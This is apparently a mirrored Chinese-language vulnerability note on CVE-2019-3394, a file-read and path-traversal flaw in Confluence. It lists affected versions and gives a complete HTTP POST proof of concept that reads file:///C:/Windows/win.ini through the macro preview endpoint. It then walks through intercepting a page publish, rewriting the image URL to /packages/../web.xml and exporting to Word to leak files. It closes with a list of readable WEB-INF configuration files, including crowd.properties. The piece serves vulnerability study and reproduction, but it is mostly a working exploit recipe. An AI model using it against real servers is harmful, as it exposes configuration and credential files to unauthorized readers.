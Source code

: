 # （CVE-2019-3394）Confluence 文件读取漏洞

> 原文：[http://book.iwonder.run/0day/Confluence/2.html](http://book.iwonder.run/0day/Confluence/2.html)

## 一、漏洞简介

> （CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

*   6.1.0 <= version < 6.6.16
*   6.7.0 <= version < 6.13.7
*   6.14.0 <= version < 6.15.8

## 三、复现过程

#### poc

```
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close

{"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}} 
```

#### 触发条件

1.  一个有效的登录账号
2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![image](img/baff42a1b2c9b6ef65fe6caaff7395c1.png)

2.插入一张网络图片

![image](img/40bd1535f5d80ae07464ef45aa89869a.png)

![image](img/39db7b3ee5a6802a3a33a6e4794c9e69.png)

> <font color="red">插入 url 改为你需要查看的文件，例如 /packages/../web.xml</font>

3.点击发布，抓取报文

4.删除多余 url 前缀,只留下 `/packages/../web.xml` 并放开报文

![image](img/87deaad57aba7ed18bf6a7f532bed9aa.png)

5.查看页面源码确认修改成功

![image](img/fb6f2fa6cb79bcdd94efdba86fde18f6.png)

6.导出 word，并抓包查看

![image](img/427c9c87df494a4e89ef202a3e465172.png)

![image](img/1b098c1a15c8a28a494ba444ad62638c.png)

#### 路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource 方法的 `validate`存在过滤和限制，所以可遍历路径均在 `/WEB-INF`下

可读取的文件大致如下

```
#WEB-INF 下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes 下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties 
```

